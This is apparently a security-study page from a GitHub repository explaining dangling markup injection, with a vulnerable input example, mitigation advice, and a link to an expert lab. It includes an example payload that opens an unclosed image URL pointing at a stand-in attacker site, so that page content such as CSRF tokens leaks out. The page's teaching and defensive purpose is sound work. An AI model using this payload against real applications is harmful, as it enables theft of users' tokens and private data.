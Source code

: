 ## 🪝 Hanging Markup Injection

In this section, we explain how hanging markup injection occurs, how a typical exploit works, and how to prevent attacks using hanging markup.

### ❓ What is Hanging Markup Injection?

Hanging markup injection is a method of cross-domain data exfiltration in scenarios where a full-fledged cross-site scripting (XSS) attack is not possible.

### 🛡️ How to Prevent Hanging Markup Injection Attacks

You can prevent hanging markup injection attacks by applying the same general defenses used to prevent XSS, such as encoding output and validating input upon receipt.

Consider an application that insecurely injects attacker-controlled data into its responses:

```html
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

Assume the application does not filter or escape characters like `>` or `"`. An attacker could use the following syntax to break out of the attribute value's quotes and the surrounding tag, returning to the HTML context:

```html
">
```

In this situation, the attacker would naturally attempt to execute XSS. However, assume that standard XSS attacks are not possible due to input filters, Content Security Policy (CSP), or other barriers. It may still be possible to perform a hanging markup injection attack using a payload like the following:

```html
"><img src='//attacker-website.com?
```

This payload creates an `<img>` tag and starts an `src` attribute containing a URL pointing to the attacker's server. Note that the attacker's payload does not close the `src` attribute, leaving it "hanging." When the browser parses the response, it looks ahead until it encounters a quote to close the attribute. Everything up to that point is treated as part of the URL and sent to the attacker's server in the query string of the URL. Any non-alphanumeric characters, including newlines, are URL-encoded.

📌 The result of the attack is that the attacker can capture part of the application's response after the injection point, which may contain sensitive data. Depending on the application's functionality, this could include CSRF tokens, email messages, or financial data.

### 🔗 Attributes for Hanging Markup Injection

Any attribute that makes an external request can be used for hanging markup injection.

This next lab is difficult to solve because all external requests are blocked. However, there are certain tags that allow you to store data and retrieve it later from an external server. Solving this lab may require user interaction.

[![Open Lab](https://img.shields.io/badge/Open-Lab-blue)](./01.%20%28Expert%29%20Reflected%20XSS%20protected%20by%20very%20strict%20CSP%2C%20with%20dangling%20markup%20attack.md)

You can also mitigate some hanging markup injection attacks by using a Content Security Policy (CSP). For example, you can prevent some (but not all) attacks by implementing a policy that disallows tags like `<img>` from loading external resources.

### 📝 Note

The Chrome browser has addressed hanging markup injection attacks by preventing `<img>` tags from defining URLs containing raw characters such as angle brackets and newlines. This blocks attacks because the data that would otherwise be exfiltrated typically contains these raw characters, causing the attack to fail.
